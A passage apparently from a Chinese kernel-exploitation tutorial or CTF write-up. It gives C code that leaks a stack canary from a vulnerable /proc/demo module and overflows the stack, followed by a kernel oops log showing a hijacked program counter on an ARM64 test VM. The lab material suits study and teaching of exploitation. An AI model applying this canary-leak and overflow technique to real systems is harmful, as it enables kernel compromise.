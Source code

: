 
```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(){
    char buf[0x100];
    char exp[0x200];

    int f = open("/proc/demo",O_RDWR);

    // leak canary
    read(f,buf,0x100);
    long long canary =  *(long long *)(buf+128);
    printf("[+] canary: %llx\n",canary);

    // stack buffer overflow 
    memset(exp,'a',0x200);
    *(long long *)(exp+128) = canary;

    write(f,exp,0x200);
}
```

执行后可见，的确控制流劫持了：

```c
➜  ./run.sh

Boot took 0.84 seconds

/home/pwn # ./test
[+] canary: 818b015a82d17d00
[    2.409764] Unable to handle kernel paging request at virtual address 0061616161616161
[    2.411072] Mem abort info:
[    2.411164]   ESR = 0x86000004
[    2.411284]   EC = 0x21: IABT (current EL), IL = 32 bits
[    2.411436]   SET = 0, FnV = 0
[    2.411532]   EA = 0, S1PTW = 0
[    2.411638]   FSC = 0x04: level 0 translation fault
[    2.412088] [0061616161616161] address between user and kernel address ranges
[    2.412506] Internal error: Oops: 86000004 [#1] PREEMPT SMP
[    2.412854] Modules linked in: demo(O)
[    2.414028] CPU: 0 PID: 93 Comm: test Tainted: G           O      5.17.2 #4
[    2.414304] Hardware name: linux,dummy-virt (DT)
[    2.414660] pstate: 90400005 (NzcV daif +PAN -UAO -TCO -DIT -SSBS BTYPE=--)
[    2.414906] pc : 0x61616161616161
[    2.415442] lr : 0x6161616161616161
[    2.415556] sp : ffff80000a2c3d80
[    2.415658] x29: 6161616161616161 x28: ffff000002e9de80 x27: 0000000000000000
[    2.415942] x26: 0000000000000000 x25: 0000000000000000 x24: 0000000000000000
[    2.416132] x23: 0000000000000000 x22: ffff80000a2c3e00 x21: 0000ffffccfb0718
[    2.416318] x20: 6161616161616161 x19: 6161616161616161 x18: 0000000000000000
[    2.416506] x17: 0000000000000000 x16: 0000000000000000 x15: 6161616161616161
[    2.416690] x14: 6161616161616161 x13: 6161616161616161 x12: 6161616161616161
[    2.416876] x11: 6161616161616161 x10: 6161616161616161 x9 : 6161616161616161
[    2.417096] x8 : 6161616161616161 x7 : 6161616161616161 x6 : 6161616161616161
[    2.417284] x5 : ffff80000a2c3ed8 x4 : ffff800000e42588 x3 : ffff80000a2c3e50
[    2.417472] x2 : 0000000080000000 x1 : 0000000000000000 x0 : 0000000000000200
[    2.417784] Call trace:
[    2.417930]  0x61616161616161
[    2.418436] Code: bad PC value
[    2.418974] ---[ end trace 0000000000000000 ]---
```